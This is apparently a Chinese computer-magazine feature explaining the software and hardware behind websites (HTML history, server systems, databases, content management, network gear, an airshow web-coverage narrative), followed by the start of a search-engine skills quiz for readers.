1989年，当Tim Berners-Lee和他的同事们在试图创建一个基于超文本的分布式应用系统时，他意识到，SGML是描述超文本信息的一个很好的方案，但是SGML太复杂，不利于用于互联网上信息的传递和解析(互联网需要的是一种简单的标志性语言)。于是，他对SGML语言做了简化和完善，发明了我们现在所熟知的HTML语言。
1990年，第一个可以使用HTML语言来展现超文本信息的基于图形界面的Web浏览器出现了。
现在，我们可以从图中看到当时Tim Berners-Lee提出的HTML的设想图。这个设想图可以借助比尔·盖茨在《未来之路》中的一段话来做一说明：“信息高速公路上的超级链接会在你碰到问题并感兴趣的时候帮助你找到答案。假设正在看电视，你看到一个你不认识的人与英国首相在一起，你想知道她是谁。你用电视的遥控器指着这个人，这个动作就会带给你关于她的小传，还有最近出现过她的其他新闻报道的名单。指着名单上的一件东西，你就能阅读或观看它，无数次地从一个话题跳到另一个话题，在全世界范围内收集视频、音频和文本信息。”





## 你知道吗

- ★ 世界上第一个网站
1990年11月，第一个Web服务器nxoc01.cern.ch开始运行，Tim Berners-Lee在自己编写的图形化Web浏览器“WorldWideWeb”上看到了最早的Web页面。
图1中我们看到的就是世界上第一个网站的样子，而浏览器中的页面就是世界上的第一个网页(当时的网址是http://nxoc01.cern.ch/hypertext/WWW/TheProject.html)，不过这个网站大概1992年时就已经关闭了，但是这个网页被保留了下来，所以你现在仍然可以在W3(国际互联网组织)的网站上看到这个页面(网址:http://www.w3.org/History/19921103-hypertext/hypertext/WWW/TheProject.html)。
另外，在W3的网站上有一篇有关Tim Berners-Lee的访谈(http://www.w3.org/People/Berners-Lee/FAQ.html#Examples)，上面提到了很多网站起源的故事。

## ★ 世界上第一个成熟的浏览器

Mosaic是世界上第一个比较成熟的浏览器(见图2)，它的出现引起了互联网的一场革命——直接导致了浏览器的产生，包括我们现在熟悉的Internet Explorer浏览器也是基于Mosaic技术的。

## ★ 中国早期的网站

你想知道网易、搜狐、新浪几年前的主页是什么样子吗？那么你可以登录北京大学的中国Web信息博物馆(http://www.infomall.cn)看看，在上面你只要输入网址，选择时间就能看到很多大中型网站几年前的样子，包括几个代表性的网站在中国互联网发展初期的1996年、1997年时的网站主页。

## 网站幕后的软件

看了上面的介绍，你是不是觉得网站所包含的内容太多了，太复杂了？其实不然，单纯从技术上讲，一个简单的网站完完全全可以用一台普通的个人电脑架设完成，同时胜任一定规模的访问量。
网站公式1：网站=计算机+网站服务软件+网页
网站公式1是从网站构成的单纯简单的角度上说的，实际上无论多么复杂的网站也是在此基础上的扩充。所以说到底，和我们平时所用的计算机一样，网站同样包括软件和硬件两部分。那么，网站的工程师们到底用什么软件架设网站，用什么样的电脑来设计网站、发布网站呢？
我们先从网站所用的软件开始讲起，带你对建设网站所用的软件来一个全方位的了解。
网站公式2：网站服务器软件=操作系统+网站Web服务系统+数据库系统
网站公式3：网站设计软件=网页设计软件+多媒体制作软件+程序开发软件+安全检测软件
架设一个大中型网站所用到的软件数不胜数，不过必须的软件有以下几种：服务器系统软件(服务器操作系统、网站Web服务系统和数据库系统)；网站工程师所用设计软件(客户端操作系统、页面设计软件、多媒体制作软件、程序开发类软件和安全检测类软件等)。

### 1. 服务器操作系统

网站所用服务器的操作系统和我们平时用的Windows 2000 Professional和Windows XP有所区别，因为一般大中型网站的要求是“24小时不间断长时间的稳定运行、存储容量大、安全性高、稳定性好、在必要时能进行灾难恢复等”，这就决定了网站服务器操作系统的设计一定要满足上述要求。下面就为大家介绍常见的大中型网站所用的服务器操作系统。

#### (1) Windows Server System

Windows服务器操作系统目前包括(Windows NT 4.0 Server、Windows 2000 Server/Advanced Server和Windows Server 2003)。连同我们平常个人电脑上所用的Windows，微软一个Windows大有占据所有普通计算机的势头，现在互联网上已经有近半数的网站在Windows Server上搭建。我们对于Windows已经熟悉，微软的Windows Server系列操作系统也很好地继承了Windows的优点，尤其是在用户界面上，操作和我们平时所用的Windows可以说是一模一样。现在，Windows Server已经能满足绝大多数网站服务器的需要，在运营成本上又较低，是中小型网站的首选。

#### (2) Linux

说到Linux你一定会想到这只可爱的小企鹅。Linux从一个名不见经传的操作系统一跃成为网站服务器操作系统的领头羊，它最大的优势就是Open Source(开放源代码)。同样，现在Linux已经成为架设电子商务网站的首选操作系统，原因很简单：对于Java技术的优秀支持和Sun以及众多服务器厂商的大力推广。

#### (3) Unix

Unix是历史最悠久的通用操作系统。1969年，美国贝尔实验室的K.Thompson和D.M.Ritchie在规模较小及较简单的分时操作系统MULTICS的基础上开发出Unix。它强大的功能和性能特别适于服务器，尤其是在安全性方面，这使Unix系统一直处于领先地位，Windows Server等服务器操作系统一直不能超越。这一系列的优点吸引各厂商开发其特定的Unix服务器版本，比较有名的有Sun公司的Solaris、惠普公司的HP-UX、IBM公司的AIX、苹果公司的Mac OS Server和SCO公司的SCO Unix。不过，现在备受关注的是FreeBSD(BSD是Berkeley Systems Distribution的缩写，是一种Unix版本，以其使用的稳定性和简易性颇受广大Unix使用者的欢迎)，它在结构上属于Unix系统，概括地讲可以说它是一个免费的Unix。Unix是需要高可靠性和高安全性网站的首选(例如银行网站、军队网站和政府机关网站等)。

### 2. 网站服务软件

网站服务软件的用途就是用来将服务器上的网页和图片等资源发布出去供网友在浏览器中浏览。我们可以把网站比作图书馆的阅览室，其中的网页和图片等资源比作当中的书籍，那么网站服务软件和服务器的硬件就组成了放置这些书籍的书架，将书籍分门别类并且有组织地放置起来，供需要的读者随时翻阅。下面看看“书架”都有哪些种类。

#### (1) Microsoft Internet Information Service

Microsoft Internet Information Service(Internet信息服务，一般简称IIS)是随同Microsoft Windows Server系列操作系统一并提供的，使用它可以提供可靠、可伸缩和易管理的集成化网站服务器功能。我们可以用IIS很简单地创建和管理网站并提供FTP、SMTP等服务。
IIS还提供了一个图形界面管理工具，称为Internet服务管理器，可以用于监视配置和控制网站。



IIS是目前Windows Server系列操作系统上应用最多的网站服务系统，它和Windows操作系统紧密结合，图形界面工具借助微软管理控制台(Microsoft Management Console，简称“mmc”)实现了操作上的简便和统一。

#### (2) Apache Web Server

你是不是也能在网上经常看到这一个小小的羽毛的标志呢？它就是现在世界上使用最广的网站服务器系统软件——Apache(阿帕奇)的标志。这一看似柔弱的“羽毛”在与众多的商业化的产品竞争中始终立于不败之地。更多的时候，Apache已经成为网站服务器软件的象征和代名词。在这一点上，微软的IIS也只能望其项背。
说来有趣，现在处于Web服务软件老大哥地位的Apache，当时只是一群充满“学生气”的程序员们自己编写的软件，他们把这个自己编写的软件戏称为“Apache”，是因为这个由个人团体编写的软件在一开始实在是错误(bug)多多，因此也补丁(patch)多多(“Apache”取自“a patchy server”的读音，意思是充满补丁的服务器)。Apache虽然被戏称为“补丁服务器”，但是也正因为这一点，它可以自由的通过打补丁来不断扩充功能，模块化的特征使Apache能像我们搭积木一样，通过模块的组合来获得强大的功能。
专题
Apache 是 Unix 操作系统上最受欢迎的 Web 服务软件，虽然它也有 Windows 版本，但是正如部署 Java 的最佳平台是 Linux 上一样，Apache 的最佳选择也不是 Windows，而是开源的 FreeBSD 和 Linux。因为在这两个平台之上，Apache 能发挥出其最好的性能，同时具有最佳的扩展性和安全性。

尤其是值得称赞的是，Apache 现在仍然坚持免费和开放源码。国内教育网是我国最广泛采用 Apache 的网络，而 Apache 也是搭建 CGI、PHP+MySQL 的最佳平台。Apache 通过“插件”可以支持几乎所有的网站应用平台，包括 PHP、JSP、ASP、ASP.NET（虽然通过插件可以支持微软平台的 ASP 和 ASP.NET，但是目前仍然存在一些问题）。可以毫不夸张地说，Apache 的“笑傲江湖”地位在一定时期内是无人可以撼动的。

不过，与 IIS 相比，Apache 的设置比较繁琐，虽然有图形化的安装界面，但是没有如 IIS 那样好的图形化的设置环境，使得其终究没有跨入普通电脑爱好者搭建个人网站首选 Web 服务软件的行列。不过在教育与科研单位，学生和研究人员最偏爱的却也是 Apache。当我们问到他们为什么选用 Apache 的时候，有人回答：“自由是 Apache 带给我们的最好礼物。”也正是这样，Apache 如同 Linux 一样，在 Web 服务软件系统上竖起一面自由的大旗。



### 3. 数据库管理系统

平时我们在网站上看到的文字、声音和图片存放在哪里呢？我们在网站上看到的信息是如何显示出来的？我们需要这些信息的时候要怎样查找？解决这些问题的软件，就是数据库(Database，简称“DB”)。数据库是按照一定的结构和规则组织起来的相关数据(信息)的集合，管理数据库的软件称为数据库管理系统(Database Management System，简称“DBMS”)。数据库管理系统的作用就是存储信息，而且在特定的时候可以满足我们往其中增加信息、修改信息、删除信息、查找信息等(管理信息)的需要。如果我们把我们的信息(在数据库中称为数据)比作货物，那么数据库就是一个仓库，它在保存货物的同时也要管理各种货物的出货单和进货单以方便我们在需要的时候往仓库中运货或者从仓库中提货。通常我们所说的数据库都是指数据库和相应的数据库管理系统。

数据库中的数据通常是存放在一个一个的数据表中，下图就是一个简单的数据表。网站数据库的主要功能就是有效的存储信息，一般是通过网页与我们的交互来收集信息，然后结合特定程序的程序(一般为动态网站页面)，实时生成我们所看到的内容，从而在我们访问这个页面的时候，服务器自动运行动态网页上的程序，将数据库中的内容调用出来显示到网页上。但是，我们并不能通过浏览器看到这些程序，浏览器中看到的页面是经过处理的页面，换句话说你在浏览器上看到的是动态网页经过这些程序处理后的“静态网页”。

产品/客户信息表
| 商品编号 | 商品名称 | 价格 | 客户编号 | 名称 | 地址 | 电话 |
|----------|----------|------|----------|------|------|------|
| 1001-2   | 洗衣机   | 2000 | 001      | 民生 | 河西街99号| 5834265|
| 1001-2   | 洗衣机   | 2000 | 001      | 南方 | 八民街8号 | 2854765|
| 1002-1   | 电冰箱   | 1800 | 001      | 民生 | 河西街99号| 1001-2 |
| 1002-2   | 电冰箱   | 1700 | 001      | 南方 | 八民街8号 | 1002-1 |
| 1003-1   | 彩电     | 4500 | 001      | 民生 | 河西街99号| 1003-2 |
| 1003-2   | 彩电     | 4700 | 001      | 南方 | 八民街8号 | 1003-2 |

怎么普通的网页在这里讲着讲着分成了两类？什么是静态网页？什么是动态网页？看到数据库往往就能让人觉得摸不着北，其实上面所说的静态网页和动态网页，就是我们经常所指的网页。其中的“静态网页”是指所有的纯 HTML（只含有 HTML 语言代码和客户端运行的脚本）页面，也就是我们在浏览器地址栏中看到的类似于“http://www.cfan.com.cn/index.htm”的页面（扩展名为.htm 或 .html）；“动态网页”也就是上面我们提到的 ASP（扩展名为.asp）、ASP.NET（扩展名为.aspx）、JSP（扩展名为.jsp）、PHP（扩展名为.php）等网页文件，其中除了 HTML 语言代码之外，还有可以在服务器上运行的脚本。平时我们上到《电脑爱好者》网站的论坛时，就能在浏览器的地址栏中看到类似如下的网址：“http://bbs.cfan.com.cn/index.php?showforum=2”，其实就是动态网页。

说得简单一点，静态网页所包含的内容其实是“网页上我们看到的信息 + 这些信息显示的格式”，即所有我们看到的信息和这些信息如何显示都是静态网页中的内容。从这一点上，我们可以知道，比如现在要显示两条不同的新闻就需要两个不同的静态网页（“不同”是指静态网页的文件名、在磁盘上的存放位置、以及网页上的内容都不同）。

那么动态网页呢？难道它不是由 HTML 语言构成的吗？其实，动态网页是静态网页的“升级版”——它在提供静态网页所有可以完成的功能的同时，还能完成一些更为复杂的需要服务器参与运算的功能。在浏览器访问动态网页的时候，我们往往能在浏览器的地址栏中看到类似的信息：http://www.zhtv.com/news/newsdetail.aspx?news_id=2199。你是不是觉得这个网址可真够复杂的？我们下面来仔细看看。其实，你真正访问到的网页文件是 newsdetail.aspx 这个动态网页文件，而这个网页文件上显示出来的新闻内容则是数据库中存储的新闻，也就是说这个文件只是一个框架（网页的格式），框架里面的内容是从数据库中调用显示出来的。那个“newsdetail.aspx?news_id=2199”的含义是说“用 newsdetail.aspx 页面调用数据库中编号为 2199 的新闻显示出来。”这里还要说明的是，动态网页之所以能调用数据库中的内容是因为其中包含有可以在服务器上运行的程序。



Microsoft .NET 按照微软的说法，“.NET 是 Microsoft XML Web Services 平台。XML Web Services 允许应用程序通过 Internet 进行通讯和共享数据，而不管所采用的是哪种操作系统、设备或编程语言。Microsoft .NET 平台提供创建 XML Web Services 并将这些服务集成在一起之所必需。对个人用户的好处是无缝的、吸引人的体验。”通俗的讲，.net 就是一个平台，它的思想其实在很大程度上讲是“网络就是计算机”，网络在于应用，通过这个平台，我们可以无限拓展信息，可以通过手机、PDA 甚至是手表来发 E-mail，来接收天气预报、交通信息和收看电视广播等。我们讨论静态网页和动态网页，是为了更清楚地说明网站数据库的作用。但是看到这里，你可能要问了，这么多理论的东西呀，现在我最想知道的是网站实际中采用的是什么数据库呀？它也是我们常见的软件吗？其实，数据库也有我们常见的软件，比如说你经常在 Office 中看到的 Access。现在，我们就来一起认识真正实际使用的数据库管理系统。目前，大多数大型网站采用的数据库管理系统有：

#### (1) Microsoft SQL Server

微软的 SQL 产品现在已经涉及了网站搭建的方方面面，其数据库系统也不可小视。SQL Server 是一个功能完备的数据库管理系统。它包括支持开发的引擎、标准的 SQL 语言、扩展的特性（如复制、OLAP、分析）等功能。而像存储过程、触发器等特性，也是大型数据库才拥有的。你知道吗：SQL 语言（SQL 语言的全称是“结构化查询语言（Structured Query Language）”，最早是 IBM 的圣约瑟研究实验室为其关系数据库管理系统 SYSTEM R 开发的一种查询语言，它的前身是 SQUARE 语言。SQL 语言结构简洁，功能强大，简单易学，所以自从 IBM 公司 1981 年推出以来，SQL 语言得到了广泛的应用。虽然称其为语言，但是它与我们平时所说的编程语言是不同的，它是一种描述性非过程化语言。这里做一个比喻，比如说到我餐馆吃饭，说我要一个面包，如果我说的是 SQL 语言，那么服务生就会给你一个面包，但是如果你说的是 C、Java 等编程语言，那么服务生就会对你说：“请告诉我如何做一个面包”，你需要用编程语言告诉他做面包的步骤。所以从开始的设计，SQL 就被设计成一种简单描述性语言，它是直接为数据库服务的，通过它你就能从数据库中了解想要知道的信息同时有效的管理和维护数据库。目前 SQL Server 是部署 ASP 和 ASP.NET 最好的数据库管理系统，同时也能兼容 JSP 等其他动态网站技术，在具备其他大型数据库系统的优点的同时，SQL Server 界面友好，管理方便，成为目前大中型网站的首选。但是 SQL Server 目前只能运行在 Windows 操作系统之上。其实，我们所玩的网络游戏《奇迹》用的就是 SQL Server 数据库，其中存放了游戏玩家的资料和装备信息。



#### (2) Microsoft Access

相较 SQL Server、Oracle 等大型数据库系统，Access 就显示出小型数据库不可多得的优点，设计容易方便快捷，部署简单，在一台普通的个人电脑上就可以运行。

在特定范围下应用效率极高，这一系列特点使得Access不只应用在企业内部网站以及小型网站上，一些大中型网站上，部分对数据量要求不大的应用也选用了Access（比如说留言板、调查问卷和网站计数器等）。

## （3）Oracle

Oracle数据库系统是美国Oracle（甲骨文）公司提供的以分布式数据库为核心的一组软件产品，是目前最流行的客户/服务器（Client/Server）或B/S体系结构的数据库管理系统之一。Oracle数据库管理系统是目前世界上使用最为广泛的数据库管理系统，作为一个通用的数据库系统，它具有完整的数据管理功能；作为一个关系数据库，它是一个完备关系的产品；作为分布式数据库它实现了分布式处理功能。Oracle是大型数据库管理系统，可以满足存储海量信息的需要和满足高安全性的需要，为目前很多银行网站所采用。Oracle是一个跨平台的数据库管理系统，可以运行在Windows、Linux等操作系统之上。



## （4）MySQL

MySQL是一个“小巧灵珑”的数据库服务器软件，对于中小型网站应用是非常理想的。除了支持标准的ANSI SQL语句，它还支持多种平台，而在Unix系统上该软件支持多线程运行方式，从而能获得相当好的性能。对于不使用Unix的用户，它可以在Windows NT系统上以系统服务方式运行，或者在Windows 95/98系统上以普通进程方式运行。MySQL数据库是使用PHP+Linux平台的最佳选择。《电脑爱好者》的论坛采用的就是MySQL数据库。



## （5）IBM DB2

DB2是IBM公司的产品，起源于System R和System R*，支持各种操作平台。DB2既可以在主机上以主/从方式独立运行，也可以在客户/服务器环境中运行。其中服务器可以是OS/400、AIX、OS/2、HP-UNIX和SUN-Solaris等操作系统。DB2一直以来都是IBM公司的主打产品，为其推广电子商务和网络应用立下了汗马功劳，其稳定性和安全性好，也是众多大型网站的首选。

## 4. 网站管理系统

都了解了吧？下面告诉大家的是网站做内容维护用的系统——网站管理系统。说到管理系统，大家可能比较熟悉，比如说人事管理系统、财务管理系统。与这些管理系统类似，网站管理系统主要是管理网站的内容更新的。好的，我们从电脑爱好者网站（www.cfan.com.cn）的首页说起，来一探网站编辑如何把文字和图片发布到网站上。



上图中，网站首页上的广告条、新闻列表和新闻图片都是网站编辑利用网站管理系统上传后自动在网页上生成的。按照我们普通的观点，这些元素包含在一个网页中，当然需要我们用FrontPage或者Dreamweaver等网页制作软件来制作，但是一个大中型网站，网站所包含的信息量大，更新速度快，是不可能允许有时间使用网页制作软件来制作每一条新闻每一个链接的，而且网站有很多编辑，他们不是网页设计人员，不可能要求他们在上传新闻的时候还要学习网页制作及相关知识。如果这样做，不仅效率不高而且也不现实。这时候就需要一个系统来帮助他们完成信息的更新任务，这个系统就是网站管理系统，利用它网站编辑和管理员可以方便快捷地上传文字和图片并且实时生成链接，还可以发布投票、公告和广告等信息。


是不是觉得很神奇？其实说起来很简单，我们平时上网全都可以接触到类似的管理系统。你可能要问“我们上网接触到什么管理系统了呀？”其实，我们在网上论坛发表文章就和网站管理系统维护网站是一个道理。你是不是可以在论坛上发表言论、上传图片？你是不是可以编辑自己的帖子？你的帖子是不是在你发表以后会自动在网站论坛上生成一个链接？你在论坛的操作全都类似于网站编辑和管理员的工作，只不过你是在论坛上发表你的言论，他们是在网站后台发布。下面是一个简单实用的网站管理系统的界面图，网站编辑和管理员更新网站内容和发布消息其实就像我们平时在论坛上发表文章一样简单方便。利用网站管理系统，网站编辑和管理员可以在网站上发布新闻、修改网页、设置广告、发布投票和公告等信息。

## 5. 网站设计软件

上面所说的网站管理系统是基于服务器端的软件（指软件存放在服务器上，并且在服务器上运行，我们在浏览器中看到的信息只是这些软件的运行结果），下面我们来“亲密接触”设计和建设网站的工程师们所用的软件，这些软件都属于客户端软件，也就是说我们在自己的电脑上可以安装和使用的软件，这些软件有的我们耳熟能详，有的却不常见。当你了解之后，或许你也能用它们来制作属于自己的网站。

### （1）网站工程师用的操作系统

网站工程师所用的操作系统大体分为两类：网页设计师所用的操作系统（一般为Windows和Mac OS），网站管理员所用操作系统（一般为Windows、Linux和FreeBSD）。使用Windows的原因不用多说，使用简单并且有众多的软件支持；使用Mac OS自然看中了它那强大的图形处理能力；使用Linux和FreeBSD自然是看中它们强大的网络功能、开放源代码的特性以及Windows下所不能进行的一些操作。

### （2）网页设计软件

网站管理系统只是一个信息发布的工具，用它只能把做好的网页、图片等内容上传到服务器之后发布到网上。这些网页、图片等内容仍然需要网站工程师设计。那么，网站工程师用什么来制作漂亮的网页和图片呢？这当中又可以有许多内容可以讲了。网站工程师设计网页所用的软件其实就是我们平常所用的网页及平面设计软件。网页设计的主要软件有FrontPage、Dreamweaver；平面设计软件有Photoshop和ImageReady等；动态网页编程的软件有JBuilder和Visual Studio等（这些编程软件也是编写一般应用程序的软件，所以在上面我们说动态网页就是“应用程序”）。



在大中型网站制作时，对网页和图像的质量要求往往比较高，这个时候就需要除了软件之外的其他装备了。常用的装备有数码相机、绘图笔、扫描仪等。你可能觉得奇怪，怎么做网页需要绘图笔？其实，很多漂亮的网页都是网站工程师用笔画出来的。在纸上作画很多时候比在电脑上直接画画要简单的多，在纸上画好以后再用扫描仪把图像扫入计算机，之后再使用PhotoShop等平面设计软件对扫描的图像进行加工，再用这张加工好的图作底就可以在Dreamweaver等网页制作软件上进行网页设计了（当然，对于复杂的网页才需要这样做，一般的网页可以直接通过Dreamweaver制作或直接在记事本中写HTML代码来制作）。



## 网站幕后的硬件

网站的硬件设备是网站搭建的平台和传输的平台。网站的硬件设备有很多，主要有网站服务器、防火墙、路由器、交换机、网线、光纤和光收发器等。下面我们就带你了解最基础的网络硬件知识。

- 1. 网站服务器

网站服务器用来放置网站管理系统及存储和发布网站信息。说得简单一点，其实它就是一台存储容量大、计算能力强、安全性好、稳定性高的计算机（其实服务器和普通计算机的最大区别也在这里）。



- 2. 防火墙

网站为了阻挡攻击和过大的流量而设置防火墙，目前常用的有硬件防火墙和软件防火墙两种。网站常用的软件防火墙有Microsoft ISA Server。硬件防火墙种类比较多，价格也比较贵，但是作为大中型网站，往往要做到最好的安全保障，因此硬件防火墙也是很多大中型网站的必备。



- 3. 交换机

网站的服务器之间、工作站之间通过内部网络连接的时候采用的设备一般是交换机。交换机的功能和作用比较像我们常用的集线器。与集线器不同的是，集线器没有智能处理能力，它只是简单地将数据传送到其他端口，至于那些端口连接的计算机接收不接收这些数据，它就不管了。而对交换机来说，网络上的数据就是MAC地址的集合，它能分辨出数据中的源MAC地址和目的MAC地址，因此可以在任意两个端口间建立联系。交换机只认识MAC地址而不认识IP地址，这不能说是交换机的不足，只能说是它的特点，在应用的时候也只能根据其特点来使用。



- 4. 路由器

路由器怎么看起有点像上面的机架式服务器？不错，现在大多数路由器一般来说是机架式的。路由器是具有连接不同类型网络的能力并能够选择数据传送路径的网络设备。简单地说它就是连接不同网络的桥梁。不同网络上的数据往往有差别，如果数据发到另一个网络中，其他的网络往往不能识别，这个时候就需要路由器来转换了，这就如同如果你对英语不熟悉而到了说英语的国家，这时你需要一个翻译来帮你与外国人沟通。在网络层，路由器实际上就是翻译。其实我们所说的“互联网”，就是由各种路由器连接起来的。同时，在互联网中，从一个节点到另一个节点，可能有许多路径，路由器可以选择通畅快捷的近路，这样可以大大提高通信速度，减轻网络系统通信负荷，节约网络系统资源（这也正是路由器名称的由来）。



- 5. 光纤和光收发器

现在很多网站由于带宽要求比较大所以都架设了光纤，实际上它就是由光导纤维做成的“网线”，只不过具有传输容量大、抗电磁干扰能力强等特点，而且应用范围更广。光纤中传输的不是传统网线传输的电信号而是光信号，但是我们的计算机只认识电信号而不认识光信号，这个时候就需要一个转换设备，这就是光收发器，它可以将电信号转换成光信号在光纤中传输，并且将收到的光信号转换成电信号交给计算机处理。从一定程度上说，现在网站的出口连接处采用光纤，其内部网络连接一般还是采用普通网线的。



## 网站专题报道全接触

在网站上，我们除了看一般新闻之外，往往更关注网站对某一个重大事件的深度及相关报道，这些报道往往有文字、图片、声音、视频等，还有事件的前因后果、来龙去脉等相关信息，这些网站上报道的信息组织起来就构成了网站的专题报道。

大家可能在电视上看到过电视新闻记者扛着摄像机、拿着话筒跑前跑后报道新闻的场景。但是，对于网站报道新闻和采访新闻或许就不那么熟悉了。下面我们就来深入体验一次网站的大型专题报道，来了解台前幕后网站工程师是如何制作网站专题和如何进行采访报道的。

网站报道背景：2004年11月1日~11月7日，第五届中国国际航空航天博览会（以下简称航展）在珠海举行，为了让更多的网友了解中国最大的航空博览会的盛况，珠海电视台网站（www.zhtv.com）和中央电视台网站（www.cctv.com）进行合作，联合报道航展。

时间：2004年9月23日
地点：珠海电视台会议室
人物：天马（网站总工）、小雨（网站工程师）、小新（网络工程师）、小蕴（网站执行编辑）、小优（网站编辑）。

下午，阳光明媚，小雨的午觉睡过头了，爬起来赶到单位已经是下午2:55。赶到会议室，会议已经开始了。天马正在笑呵呵地主持会议，旁边围坐着小新、小蕴和小优。小雨赶紧坐下，报以歉意的微笑，同时拿出随身的笔记本做记录。这次会议主题是讨论和中央电视台网站合作报道航展的相关事宜。天马说：“我们已经制定了网站航展报道方案，决定采用文字、图片、视频报道相结合的报道方式。同时网站派出人员前往航展现场进行报道，在现场设置网站报道直播台，第一时间将最新的信息发布到网上。”小蕴总体负责网站报道，她顿了顿说：“这次网站的文字报道包括：新闻及相关信息、嘉宾访谈等；图片报道为航展现场最新图片，派出专门的摄影师到现场、每15分钟将所拍摄照片放置到网上；视频报道包括：相关视频及直播，网上直播航展现场的情况及飞行表演。”

时间：2004年9月27日
地点：北京
人物：小雨（网站工程师）、阿剑（中央电视台网站工程师）、昕昕（中央电视台网站编辑）。

小雨赶到梅地亚中心，还是比约定时间迟到了15分钟。小雨来到央视国际网站的网上直播室，设备不错，从监视器上可以看到中央台各个频道网上直播与点播的情况。接着小雨便与阿剑和昕昕开始讨论航展直播有关事宜。阿剑对技术要求极为严谨甚至苛刻，要求不能出任何错误，因此最后确定在直播时采用两套方案，一套出问题，另一套马上启用，不影响直播。昕昕是网站编辑，对内容的要求也是一丝不苟，要求能在网上传达给网友最新最快最准的消息。

时间：2004年10月30日
地点：珠海航展馆现场
人物：小新（网络工程师）、小蕴（网站执行编辑）

小新、小蕴他们赶到现场准备网络用于网站在现场报道。网站现场报道是将现场信息直接传送回服务器，所以理所当然的需要稳定的网络支持。小新准备好两套网络，一套是电信的ADSL电话线，一套是电视光纤网络。两套网络同时运行，互相备份，一套出问题也不会影响从现场传送信息。


时间：2004年11月1日
地点：珠海航展馆现场
人物：小雨（网络工程师）、小蕴（网站执行编辑）、小优（网站编辑）、昕昕（中央电视台网站编辑）

小雨赶到航展现场，开始采访，同摄影师一起跑前跑后拍照，拿着工作证到展台搜集资料，之后把拍到的照片和资料立即上网并配上相应的图片说明。

这次网站联合报道，方案中就制定了报道最新文字、图片、视频信息的原则，基于这个原因，网站现场报道组的工作极其繁忙。摄影师拍完照片回来，小优就在现场的网站直播台前筛选照片、给照片加说明、加水印、上传照片、最后由小蕴和昕昕审核后分别发布在中央台网站和珠海台网站上。从拍照到上网发布照片，前后时间控制在30分钟以内。同时，为了配合网站互动交流，网站请了2名速录师，专门负责网友与嘉宾交流时的文字录入工作。嘉宾回答网友问题时，坐在嘉宾旁边的速录师就用最快的速度将嘉宾说的话输入到电脑里，同时网站现场工作人员把输入到电脑中的文字同步发布到网上，让网友有和嘉宾面对面交流的感觉。当然，这需要一定的时间，从嘉宾回答到文字上网一般需要3~5分钟的时间，这也是我们在网上与嘉宾交流时还是觉得回答相对较慢的原因所在。



## 后记

走出网站如此庞大复杂的幕后，我们可以长吁一口气，毕竟我们只需要愉快地在计算机前享受网站提供的各种服务。“网络就是计算机”，20世纪80年代，麦克尼利率领Sun公司提出的这一理念，现在已经贯彻到了互联网和网站的发展中。千千万万的网站组成了一台超级计算机，它的容量无限大、计算能力超级强，它将我们个人电脑的功能无限拓展。而我们只管尽情享用！

## 搜索引擎大考

- □孟祥崃 邢志宇 兔子Jim 王翀 陈晓旭 徐远飞 俞军 张小六 □感谢中文搜索引擎指南网站大力协助专题制作

本期特别话题我们来考试。作为一个21世纪网络时代人，不能善用搜索就不能迅速地掌握知识，就不能先人一步了解事件的真相。而要提高自己的搜索能力，首先要知道自己的水平如何，这里我们特地收集了一些搜索引擎的经典考题，通过解答的分数，你将了解自己的搜索能力。更重要的是，我们会给你非常详尽的答案分析，将你一步送上搜索高手的行列。

## 搜索大作战（共14题，满分100分）

1. 我们的眼睛之所以能自如地转动，是因为眼睛有____条肌肉控制着眼球的转动。（单选，5分）
A.3条      B.6条      C.8条      D.12条

2. 1987年，中国互联网创始人____先生通过国际互联网向前西德卡尔斯鲁厄大学发出了中国第一封电子邮件《穿越长城，走向世界》。（5分）

3. 1999年被列入“世界文化遗产”的大足石刻现有唐宋时期的摩崖造像75处，雕像共有多少尊？（10分）

4. 住在北京的张明马上就要去美国留学了，他想了解一些关于办理留学签证的信息，请问下列哪些搜索方式是行之有效的？（多选，5分）
A.搜索关键词：美国留学签证 + 简介
B.搜索关键词：办理签证
C.搜索关键词：美国 + 签证
D.搜索关键词：美国驻华大使馆，然后进站查找需要的信息

5. 上海的黄先生某日看了一个个人画展，其中两幅画印象深刻，一幅叫《种引牵牛上短篱》，还有一副叫《芭蕉过雨绿生凉》，黄先生听说这位画家是位加拿大的华裔，你能找到这位画家的姓名吗？（10分）

6. 1999年10月1日上午，中国人民解放军在国庆五十周年阅兵大典上，展示了一百余架各种型号和性能的现代化战机，呼啸飞过天安门上空。请问飞过天安门上空的空中第三梯队的队长叫什么名字？（10分）

7. 李华要做一份《北京市教育资料的统计分析报告》，可他就是找不到1996年时北京有多少所小学？你能帮忙找到吗？（10分）

8. 2001年五一期间，由中美撞机事件引发了中美规模最大的网络黑客大战，短短数日就有数以千计的网站遭到攻击。此次大战中国的某个黑客组织起到了主导作用，你知道该组织负责人的五位数的QQ号码吗？（10分）

9. 小王最近正在学习编程，他想收集一些编程爱好者的网站，但是又不想一个一个去找，有没有办法把别人整理好的网址收藏夹找到，直接享用人冢精选过的编程网站呢？（10分）

10. 在“Windows优化大师”的“开机速度优化”中发现了名为“Wuamgdp.exe”的程序，你知道它是什么东西吗？（5分）

11. 很多朋友想通过网络广告创收，但是大部分网络广告都是国外网站提供的服务，申请的时候需要填上自己收款地的英文地址，比如某位朋友的地址是上海市宝山区示范新村37号403室，那么英文的应该是什么呢？（10分）

12. 在城市滚滚的车流中，“大块头”SUV队伍壮大的速度快得出人意料。甚至在“去年是中国汽车元年”的说法之后，又出现了“今年是中国的SUV元年”的全新理论。你知道SUV代表什么车吗？（单选，5分）
A.越野车
B.轿车
C.吉普车
D.多功能运动车

13. 王敏是一位网页设计师，经常要用到其他网站的LOGO，一个一个从其他网站上copy很费时间，而且下载的图片通常需要进行二次加工，很不方便。近来，她在使用Google的图像搜索（http://images.google.com）时，找到一些不错的方法。现在以查找Google的LOGO为例，以下哪些方法是可以的？（多选，5分）
A.搜索关键词“logo_google”
B.搜索关键词“logo-google”
C.搜索关键词“logo google”
D.搜索关键词“logo.google”

14. 小张在坐出租车时听到收音机里放了一首很好听的歌，很想DOWN下来放在自己的MP3上，但是忘记了歌名，只记得有句歌词唱到：“我想去冒险，不管一路多危险……”，你能帮他找找这首歌叫什么名字，是哪个歌手唱的，他或她最新的专辑是什么？最好再把这首歌的歌词也找出来。（10分）

搜索水平评定：
请你将你的答案记录下来，并和标准答案比对，看看你得了多少分。
50分以下：你一定是搜索初学者，没有关系，请你仔细阅读答案部分的分析，你的搜索能力将大大提高。
50～90分：你已经具备的搜索的基本功，可能在技巧上稍有欠缺，看过答案分析中为你提供的技巧补充，相信你已经得到了技能的提升，不过还是要多多关注CFan哟。
